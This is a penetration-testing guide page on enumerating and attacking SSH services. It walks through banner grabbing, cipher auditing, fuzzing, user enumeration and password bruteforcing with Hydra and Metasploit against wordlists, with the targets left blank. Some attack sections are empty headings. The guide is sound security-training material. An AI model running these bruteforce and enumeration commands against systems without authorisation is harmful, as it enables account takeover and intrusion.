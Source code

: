 ```yaml
---
authors: ShutdownRepo
---
```


# 🛠️ SSH
# `22 TCP`
## Theory

The SSH protocol (Secure Shell) is used to login from one machine to another securely. It offers several options for strong authentication, as it protects the connections and communications security and integrity with strong encryption. This connection can be used for terminal access, file transfers, and for tunneling other applications.

## Enumeration

### Authentication type

It is possible to enumerate the allowed authentication types with the following command:

```bash
ssh -v 
OpenSSH_8.1p1, OpenSSL 1.1.1d 10 Sep 2019
...
debug1: Authentications that can continue: publickey,password,keyboard-interactive
```

### Banner Grabbing

Useful to get basic information about the SSH server such as its type and version.

```bash
nc -vn  22
...
SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7
```

### Server's public SSH key

```bash
ssh-keyscan -t rsa  -p 
```

### Weak Cipher Algorithms

Some auditing tools can help to quikly find the target version and which algorithms are available on the server in order to give recommendations to the customer.

::: tabs

=== sslscan

```bash
sslscan :22
```


=== nmap

```bash
nmap -p22 -n -sV --script ssh2-enum-algos 
```


=== ssh-audit

```bash
ssh-audit -p 22 -4 
```

:::


### SSH fuzzing

Fuzzing the SSH service could help to find vulnerabilities. The automated fuzzing is simple but not very targeted so it usually takes a lot of time and could miss some results.\
The custom and the manual approach is more effective but it takes time to familiarize yourself with the target. Here is an example of a custom fuzzing : [Fuzzing the OpenSSH daemon using AFL](https://github.com/ShutdownRepo/Penetration-Testing-Guides/tree/5140c07692d27c9b3162088ed3aeff1bbbf23d23/servers/abusing-services/www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html).

::: tabs

=== Automated fuzzing

```bash
msfconsole
use auxiliary/fuzzers/ssh/ssh_version_2
set RHOSTS 
run
```

:::


## Attacks

### Weak cryptographic keys

### Authentication bruteforcing

#### User enumeration

```bash
msfconsole
use scanner/ssh/ssh_enumusers
set RHOSTS 
set USER_FILE 
```

#### Password Bruteforcing

::: tabs

=== Hydra

```bash
hydra -l  -s 22 -P   -t 4 ssh
```


=== Metasploit

```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set PASS_FILE /usr/share/wordlists/password/rockyou.txt
set RHOSTS 
set STOP_ON_SUCCESS true
set username 
run
```

:::


Some common ssh credentials [here ](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt)and [here](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt).

#### Private key Bruteforcing

## Resources

[https://book.hacktricks.xyz/pentesting/pentesting-ssh](https://book.hacktricks.xyz/pentesting/pentesting-ssh)

[https://community.turgensec.com/ssh-hacking-guide/](https://community.turgensec.com/ssh-hacking-guide/)
